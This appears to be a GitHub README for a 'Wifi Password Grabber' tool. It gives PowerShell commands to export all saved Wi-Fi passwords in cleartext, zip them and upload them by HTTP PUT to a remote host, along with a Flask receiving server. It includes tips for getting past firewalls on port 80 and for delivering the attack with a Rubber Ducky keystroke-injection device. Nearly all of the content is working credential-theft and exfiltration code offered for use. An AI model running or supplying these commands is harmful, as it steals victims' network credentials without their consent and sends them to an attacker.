 # Simple Wifi Password Grabber #
#### ↓ PowerShell command to get all saved passwords in system ↓ ####
`netsh wlan export profile key=clear` 
_**note:**  this exports all wifi networks into `C:\Users\<user>`) directory in .xml format._

#### ↓ PowerShell command to zip all XML files ↓ ####
`Compress-Archive -U .\*.xml -DestinationPath temp.zip`

#### ↓ PowerShell command to send file via Http PUT request ↓ ####
`Invoke-Restmethod -Uri http://[domain, IP or localhost]:[port]/wpg/temp.zip -Method Put -Infile .\temp.zip`
_**note:** use ports that are usually open by default in firewall, for example `80`._
### Run this python code as a server ###
This code handle the zipfile and extract `XML` files into `passwords` folder.
```py
from flask import Flask, request
from zipfile import ZipFile
from os import remove

app = Flask(__name__)

def unzip_all_files():
    with ZipFile('data.zip', 'r') as zipObj:
        zipObj.extractall(path="passwords")
    remove("data.zip")

@app.route("/wpg/<file>", methods=["PUT"])
def data_handler(file):
    with open("data.zip", 'wb') as f:
        for chunk in iter(lambda: request.stream.read(16384), bytes()):
            f.write(chunk)
    unzip_all_files()
    return "done"
    
if __name__ == "__main__":
    app.run(port=80, host="0.0.0.0")
```
#### For localhost: ####
For localhost remove `host="0.0.0.0"`

#### Tip: ###
Use a Rubber Ducky for better usage
